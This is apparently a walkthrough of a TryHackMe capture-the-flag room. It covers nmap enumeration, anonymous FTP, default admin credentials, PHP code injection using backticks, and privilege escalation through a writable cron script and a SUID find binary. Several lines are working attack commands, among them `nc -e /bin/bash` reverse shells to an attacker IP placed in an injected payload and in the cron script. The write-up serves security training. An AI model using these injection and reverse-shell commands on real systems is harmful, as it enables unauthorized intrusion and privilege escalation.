


## Room  is backtikcs on tryhackme

The room will let you practise php fileter bypass
1. nmap port scanning
 
          ================================================
         nmap -vv 10.10.183.115 -Pn -T4 -F  --open  -oN nmap-100.txt
         ================================================
         Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
         Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-27 08:02 +11
         Initiating Parallel DNS resolution of 1 host. at 08:02
         Completed Parallel DNS resolution of 1 host. at 08:02, 0.07s elapsed
         Initiating Connect Scan at 08:02
         Scanning 10.10.183.115 [100 ports]
         Discovered open port 80/tcp on 10.10.183.115
         Discovered open port 111/tcp on 10.10.183.115
         Discovered open port 3306/tcp on 10.10.183.115
         Discovered open port 22/tcp on 10.10.183.115
         Discovered open port 21/tcp on 10.10.183.115
         Discovered open port 2049/tcp on 10.10.183.115
         Completed Connect Scan at 08:02, 3.69s elapsed (100 total ports)
         Nmap scan report for 10.10.183.115
         Host is up, received user-set (0.72s latency).
         Scanned at 2021-11-27 08:02:25 +11 for 3s
         Not shown: 94 closed tcp ports (conn-refused)
         PORT     STATE SERVICE REASON
         21/tcp   open  ftp     syn-ack
         22/tcp   open  ssh     syn-ack
         80/tcp   open  http    syn-ack
         111/tcp  open  rpcbind syn-ack
         2049/tcp open  nfs     syn-ack
         3306/tcp open  mysql   syn-ack

         Read data files from: /usr/bin/../share/nmap
         Nmap done: 1 IP address (1 host up) scanned in 3.85 seconds
After further enumeration we found with nmap with more options
       
      ==============================================================
      sudo nmap -v 10.10.183.115 -Pn -sC -sV -O -F -T4 -oN nmap-sVC.txt
      =============================================================
      [sudo] password for mywife: 
      Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
      Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-27 08:02 +11
      NSE: Loaded 155 scripts for scanning.
      NSE: Script Pre-scanning.
      Initiating NSE at 08:02
      Completed NSE at 08:02, 0.00s elapsed
      Initiating NSE at 08:02
      Completed NSE at 08:02, 0.00s elapsed
      Initiating NSE at 08:02
      Completed NSE at 08:02, 0.00s elapsed
      Initiating Parallel DNS resolution of 1 host. at 08:02
      Completed Parallel DNS resolution of 1 host. at 08:02, 0.00s elapsed
      Initiating SYN Stealth Scan at 08:02
      Scanning 10.10.183.115 [100 ports]
      Discovered open port 80/tcp on 10.10.183.115
      Discovered open port 22/tcp on 10.10.183.115
      Discovered open port 3306/tcp on 10.10.183.115
      Discovered open port 21/tcp on 10.10.183.115
      Discovered open port 111/tcp on 10.10.183.115
      Discovered open port 2049/tcp on 10.10.183.115
      Completed SYN Stealth Scan at 08:02, 2.32s elapsed (100 total ports)
      Initiating Service scan at 08:02
      Scanning 6 services on 10.10.183.115
      Completed Service scan at 08:02, 7.50s elapsed (6 services on 1 host)
      Initiating OS detection (try #1) against 10.10.183.115
      Retrying OS detection (try #2) against 10.10.183.115
      Retrying OS detection (try #3) against 10.10.183.115
      Retrying OS detection (try #4) against 10.10.183.115
      Retrying OS detection (try #5) against 10.10.183.115
      NSE: Script scanning 10.10.183.115.
      Initiating NSE at 08:03
      NSE: [ftp-bounce] PORT response: 500 Illegal PORT command.
      Completed NSE at 08:03, 19.79s elapsed
      Initiating NSE at 08:03
      Completed NSE at 08:03, 8.88s elapsed
      Initiating NSE at 08:03
      Completed NSE at 08:03, 0.00s elapsed
      Nmap scan report for 10.10.183.115
      Host is up (0.71s latency).
      Not shown: 94 closed tcp ports (reset)
      PORT     STATE SERVICE VERSION
      21/tcp   open  ftp     vsftpd 3.0.3
      | ftp-syst: 
      |   STAT: 
      | FTP server status:
      |      Connected to ::ffff:10.4.54.226
      |      Logged in as ftp
      |      TYPE: ASCII
      |      No session bandwidth limit
      |      Session timeout in seconds is 300
      |      Control connection is plain text
      |      Data connections will be plain text
      |      At session startup, client count was 2
      |      vsFTPd 3.0.3 - secure, fast, stable
      |_End of status
      | ftp-anon: Anonymous FTP login allowed (FTP code 230)
      |_drwxr-xr-x    2 ftp      ftp          4096 Nov 16 19:45 pub
      22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 ea:b9:0f:99:fd:40:d1:20:a0:f8:68:6b:8e:92:34:43 (RSA)
      |   256 a9:fc:f0:55:6d:a8:3b:f9:1d:f6:5b:ee:22:d3:71:cc (ECDSA)
      |_  256 ae:8e:24:1b:f4:2f:2c:51:08:ca:54:da:8c:ec:e6:c5 (ED25519)
      80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
      |_http-title: Apache2 Ubuntu Default Page: It works
      | http-methods: 
      |_  Supported Methods: GET HEAD POST OPTIONS
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      111/tcp  open  rpcbind 2-4 (RPC #100000)

 2. FTP Anonymous Login
 The output of it we will see that we have anonymous access to ftp server on `port 21`
 
     ftp <ip>

        username: anonymous
        passsword: anything
    
then you will find a directory called pub in which inside it has a dockfile which you cam download it through

    get manifest.docs
    
Then navigate to the directory you downloaded and open it to read what is inside. 
It is nothing but a was to use backticks tricks to bypass php filters
  so every thing suspicious is terminated. So using backticks you completely bypass it
 
 3. Web service Enumeration
 
    * navigating to the the web page using the `VPN` ip provided we can see that there is default ubuntu page
           
     * Viewing source codes we found there i some comments which is suspecious and it looks like base64 encoded string   
         
          
         so decoding it as `base64` we can see the out put is
              
                 echo "L2JhY2t0aWNrcwo="|base64 -d                                                                   130 ⨯
                       /backticks
                       
 so going to `http://<ip>/backticks` we can see the login page now
   trying the deafult usernames and passwords found that `username=admin&& password=admin`
   loggin in we can see that there is a ordering system. Going through it we can see there is `game` to play..
    trying `xss` was possible.
      Example 
      
         
         
  Since our aim is to gain full access to the system, so let's try to execute system comand by `php code injection`
  many payloads failed but since from `ftp server` i learned something `backticks` i tryed to use backticks triks to execute commandds
  
  
  example 
  
    ${print `ls`}
    $print `pwd`}
    ${print `nc -e /bin/bash 10.4.54.226 1191`}
  Then we get reverse shell on backticks as user techguy, so we can submit our user.txt
                 
 ### privilege escation
 
 
   * look at crontabs you may find editable to everybody scripts and it is run as user john so you cat get the user malwarepeter shell now
             
                      # cat /etc/crontab
                                 
                        # /etc/crontab: system-wide crontab
                        # Unlike any other crontab you don't have to run the `crontab'
                        # command to install the new version when you edit this file
                        # and files in /etc/cron.d. These files also have username fields,
                        # that none of the other crontabs do.

                        SHELL=/bin/sh
                        PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

                        # m h dom mon dow user  command
                        17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
                        25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
                        47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
                        52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

                        # user malwarepeter
                        *  *    * * * malwarepeter /opt/script.sh
So editing the file and putting in reverseshell payload like

    nc -e /bin/bash 10.4.54.226 1234
    
Then waiting for few minutes for cronjob to run and get malwarepeter shell on the netcat listerner
  
  #### root  privilege escation
   * To be root just find suid binaries with command like
 
             find / -perm -u=s -type f 2>/dev/null
   * find has SUID so we can use it to read root file like
       
          find . -exec cat /root/root.txt \;
             
   
